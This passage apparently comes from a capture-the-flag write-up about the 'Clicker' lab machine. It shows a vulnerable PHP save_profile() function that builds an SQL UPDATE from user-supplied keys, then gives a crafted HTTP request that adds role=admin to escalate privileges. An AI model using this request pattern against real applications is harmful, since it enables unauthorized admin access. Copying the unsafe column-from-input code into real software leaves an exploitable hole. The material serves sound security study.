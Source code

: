 # DISCOVERING BROKEN ACCESS CONTROL VULNERABILITY

We dug deeper into a file named `db_utils.php` that handles database-related operations. Most of the code in this file appeared to be secure, except for a specific section that raised a concern.

```php
function save_profile($player, $args) {
	global $pdo;
  	$params = ["player"=>$player];
	$setStr = "";
  	foreach ($args as $key => $value) {
    		$setStr .= $key . "=" . $pdo->quote($value) . ",";
	}
  	$setStr = rtrim($setStr, ",");
  	$stmt = $pdo->prepare("UPDATE players SET $setStr WHERE username = :player");
  	$stmt -> execute($params);
}
```

In this code segment, we found a function called `save_profile()`. This function is responsible for updating certain user parameters when provided with a `username`. It constructs an SQL query to make these updates.

What caught our attention was that, although the user's role value is typically set by the backend and not exposed to user manipulation, the `save_profile()` function could potentially be used to manipulate the `role` parameter arbitrarily. This could lead to privilege escalation, allowing a user to elevate their `role` to `Admin`.

```php
.
.
SNIP
.
.
function saveAndClose() {
        window.location.replace("/save_game.php?clicks="+money+"&level="+update_level);
      }
.
.
SNIP
.
.
```

Next, in the code for `play.php`, we identified how the `save_game.php` script is triggered. It appears that this script is executed when a user decides to save their game progress, particularly the number of `clicks` and their game `level`.

```
GET /save_game.php?clicks=89&level=1&role=admin HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=ubq9k1675uqtkgpokkivkvi3u9
Upgrade-Insecure-Requests: 1

```
